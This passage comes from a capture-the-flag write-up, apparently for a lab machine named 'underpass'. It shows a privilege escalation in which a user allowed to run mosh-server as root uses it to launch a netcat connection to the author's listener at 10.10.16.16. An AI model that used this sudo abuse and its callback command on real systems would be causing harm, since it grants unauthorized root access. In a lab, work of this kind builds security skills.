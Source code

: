 ## **Privilege Escalation**

Let's check our privileges.

```terminal
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

we can run `mosh-server` as root.

First let's understand `mosh`.

>mosh (mobile shell) is a remote terminal application that supports intermittent connectivity, allows roaming, and provides speculative local echo and line editing of user keystrokes.
{: .prompt-info }

> mosh-server is a helper program for the mosh remote terminal application. mosh-server binds to a high UDP port and chooses an encryption key to protect the session. It prints both on standard output, detaches from the terminal, and waits for the mosh-client to establish a connection. It will exit if no client has contacted it within 60 seconds.
{: .prompt-info }

If we check the help command of mosh-server we get this.

```bash
mosh-server new [-s] [-v] [-i IP] [-p PORT[:PORT2]] [-c COLORS] [-- command...] 
```

We can create a new server, specify the ip and port then with `--` we can specify a command.

I'll try to setup a server and run a command that connects to my netcat listener

```bash
sudo /usr/bin/mosh-server new -s -i 127.0.0.1 -p 9999 -- nc 10.10.16.16 9001
```

```terminal
svcMosh@underpass:~$ sudo /usr/bin/mosh-server new -s -i 127.0.0.1 -p 9999 -- nc 10.10.16.16 9001
Warning: SSH_CONNECTION not found; binding to any interface.


MOSH CONNECT 9999 C6CMnpwy9XvuV2KCOvuldQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 3481]
```
